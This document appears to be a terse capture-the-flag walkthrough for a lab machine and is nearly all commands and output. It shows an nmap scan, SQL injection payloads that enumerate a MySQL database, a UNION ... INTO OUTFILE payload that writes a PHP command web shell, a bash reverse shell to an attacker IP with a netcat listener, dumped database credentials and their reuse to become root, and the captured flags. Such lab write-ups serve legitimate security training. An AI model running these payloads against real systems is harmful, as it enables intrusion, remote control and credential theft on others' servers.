 ### Tools:

### Vulnerabilities:

```console
└─$ nmap -A -p- -T4 -Pn 10.129.95.235
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-29 14:11 CDT
Nmap scan report for 10.129.95.235
Host is up (0.060s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT     STATE    SERVICE        VERSION
22/tcp   open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open     http           Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open     http           nginx
|_http-title: 403 Forbidden
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
5005/tcp filtered avt-profile-2
5006/tcp filtered wsm-server
5007/tcp filtered wsm-server-ssl
5008/tcp filtered synapsis-edge
8080/tcp open     http           nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.13 seconds
```

```Argentina'```

```php

<div class="container">
		<h1 class="text-center m-5">Join the UHC - September Qualifiers</h1>
		
	</div>
	<section class="bg-dark text-center p-5 mt-4">
		<div class="container p-5">
            <h1 class="text-white">Welcome asd</h1><h3 class="text-white">Other Players In Argentina'</h3><br />
<b>Fatal error</b>:  Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33
Stack trace:
#0 {main}
  thrown in <b>/var/www/html/account.php</b> on line <b>33
```

```Argentina'-- -```
```Argentina' UNION SELECT null-- -```
```Argentina' UniOn Select gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata-- -```

```php
<div class="container">
		<h1 class="text-center m-5">Join the UHC - September Qualifiers</h1>
		
	</div>
	<section class="bg-dark text-center p-5 mt-4">
		<div class="container p-5">
            <h1 class="text-white">Welcome asdfqaaaaababaaaaa</h1><h3 class="text-white">Other Players In Argentina'UNION SELECT gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata-- -</h3><li class='text-white'>asdf</li><li class='text-white'>|information_schema|,|performance_schema|,|mysql|,|registration|</li>		</div>
```

```Argentina' UniOn Select gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables-- -```

```
|ALL_PLUGINS|,|APPLICABLE_ROLES|,|CHARACTER_SETS|,|CHECK_CONSTRAINTS|,|COLLATIONS|,|COLLATION_CHARACTER_SET_APPLICABILITY|,|COLUMNS|,|COLUMN_PRIVILEGES|,|ENABLED_ROLES|,|ENGINES|,|EVENTS|,|FILES|,|GLOBAL_STATUS|,|GLOBAL_VARIABLES|,|KEY_CACHES|,|KEY_COLUMN_USAGE|,|OPTIMIZER_TRACE|,|PARAMETERS|,|PARTITIONS|,|PLUGINS|,|PROCESSLIST|,|PROFILING|,|REFERENTIAL_CONSTRAINTS|,|ROUTINES|,|SCHEMATA|,|SCHEMA_PRIVILEGES|,|SESSION_STATUS|,|SESSION_VARIABLES|,|STATISTICS|,|SYSTEM_VARIABLES|,|TABLES|,|TABLESPACES|,|TABLE_CONSTRAINTS|,|TABLE_PRIVILEGES|,|TRIGGERS|,|USER_PRIVILEGES|,|VIEWS|,|CLIENT_STATISTICS|,|INDEX_STATISTICS|,|INNODB_SYS_DATAFILES|,|GEOMETRY_COLUMNS|,|INNODB_SYS_TABLESTATS|,|SPATIAL_REF_SYS|,|INNODB_BUFFER_PAGE|,|INNODB_TRX|,|INNODB_CMP_PER_INDEX|,|INNODB_METRICS|,|INNODB_LOCK_WAITS|,|INNODB_CMP|,|THREAD_POOL_WAITS|,|INNODB_CMP_RESET|,|THREAD_POOL_QUEUES|,|TABLE_STATISTICS|,|INNODB_SYS_FIELDS|,|INNODB_BUFFER_PAGE_LRU|,|INNODB_LOCKS|,|INNODB_FT_INDEX_TABLE|,|INNODB_CMPMEM|,|THREAD_POOL_GROUPS|,|INNODB_CMP_PER_INDEX_RESET|,|INNODB_SYS_FOREIGN_COLS|,|INNODB_FT_INDEX_CACHE|,|INNODB_BUFFER_POOL_STATS|,|INNODB_FT_BEING_DELETED|,|INNODB_SYS_FOREIGN|,|INNODB_CMPMEM_RESET|,|INNODB_FT_DEFAULT_STOPWORD|,|INNODB_SYS_TABLES|,|INNODB_SYS_COLUMNS|,|INNODB_FT_CONFIG|,|USER_STATISTICS|,|INNODB_SYS_TABLESPACES|,|INNODB_SYS_VIRTUAL|,|INNODB_SYS_INDEXES|,|INNODB_SYS_SEMAPHORE_WAITS|,|INNODB_MUTEXES|,|user_variables|,|INNODB_TABLESPACES_ENCRYPTION|,|INNODB_FT_DELETED|,|THREAD_POOL_STATS|,|accounts|,|cond_instances|,|events_stages_current|,|events_stages_history|,|events_stages_history_long|,|events_stages_summary_by_account_by_event_name|,|events_stages_summary_by_host_by_event_name|,|events_stages_summary_by_thread_by_event_name|,|events_stages_summary_by_user_by_event_name|,|events_stages_summary_global_by_event_name|,|events_statements_current|,|events_statements_history|,|events_statements_history_long|,|events_statements_summary_by_account_by_event_name|,|events_statements_summary_by_digest|,|events_statements_summary_by_host_by_event_name|,|events_statements_summary_by_program|,|events_statements_summary_by_thread_by_event_name|,|events_statements_summary_by_user_by_event_name|,|events_statements_summary_global_by_event_name|,|events_transactions_current|,|events_transactions_history|,|events_transactions_history_long|,|events_transactions_summary_by_account_by_event_name|,|events_transactions_summary_by_host_by_event_name|,|events_transactions_summary_by_thread_by_event_name|,|events_transactions_summary_by_user_by_event_name|,|events_transactions_summary_global_by_event_name|,|events_waits_current|,|events_waits_history|,|events_waits_history_long|,|events_waits_summary_by_account_by_event_name|,|events_waits_summary_by_host_by_event_name|,|events_waits_summary_by_instance|,|events_waits_summary_by_thread_by_event_name|,|events_waits_summary_by_user_by_event_name|,|events_waits_summary_global_by_event_name|,|file_instances|,|file_summary_by_event_name|,|file_summary_by_instance|,|global_status|,|host_cache|,|hosts|,|memory_summary_by_account_by_event_name|,|memory_summary_by_host_by_event_name|,|memory_summary_by_thread_by_event_name|,|memory_summary_by_user_by_event_name|,|memory_summary_global_by_event_name|,|metadata_locks|,|mutex_instances|,|objects_summary_global_by_type|,|performance_timers|,|prepared_statements_instances|,|replication_applier_configuration|,|replication_applier_status|,|replication_applier_status_by_coordinator|,|replication_connection_configuration|,|rwlock_instances|,|session_account_connect_attrs|,|session_connect_attrs|,|session_status|,|setup_actors|,|setup_consumers|,|setup_instruments|,|setup_objects|,|setup_timers|,|socket_instances|,|socket_summary_by_event_name|,|socket_summary_by_instance|,|status_by_account|,|status_by_host|,|status_by_thread|,|status_by_user|,|table_handles|,|table_io_waits_summary_by_index_usage|,|table_io_waits_summary_by_table|,|table_lock_waits_summary_by_table|,|threads|,|user_variables_by_thread|,|users|,|user|,|transaction_registry|,|help_relation|,|roles_mapping|,|help_keyword|,|global_priv|,|event|,|func|,|db|,|time_zone|,|procs_priv|,|tables_priv|,|help_topic|,|time_zone_leap_second|,|innodb_index_stats|,|table_stats|,|plugin|,|proxies_priv|,|general_log|,|gtid_slave_pos|,|time_zone_transition|,|time_zone_name|,|time_zone_transition_type|,|proc|,|slow_log|,|innodb_table_stats|,|column_stats|,|help_category|,|columns_priv|,|index_stats|,|servers|,|registration|
```

```Argentina' UniOn Select gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns-- -```

```username|,|userhash```

```Argentina' UniOn Select user()```

uhc@localhost

Then we can confirm the file is uploaded by going to the webpage http://10.129.95.235/base.txt

```Argentina' UniOn Select 'All your base belong to us!' into outfile '/var/www/html/base.txt'-- -```

```Argentina' union select %22%3C%3Fphp%20SYSTEM(%24_REQUEST%5B%27cmd%27%5D)%3B%20%3F%3E%22%20INTO%20OUTFILE%20%27%2Fvar%2Fwww%2Fhtml%2Fshell.php%27%3B--%20-```

```bash -c 'bash -i >& /dev/tcp/10.10.16.19/1234 0>&1'```

```http://10.129.95.235/shell.php?cmd=bash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E16%2E19%2F1234%200%3E%261%27```

└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.19] from (UNKNOWN) [10.129.95.235] 48078
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$ 

www-data@validation:/var/www/html$ cat config.php
cat config.php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```console
www-data@validation:/home/htb$ cat user.txt
cat user.txt
98ee980209494114bb05cad012282eda
```

```console
www-data@validation:/home/htb$ su root
su root
Password: uhc-9qual-global-pw
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
8e07f8181fa75bebe59c416e44296aca
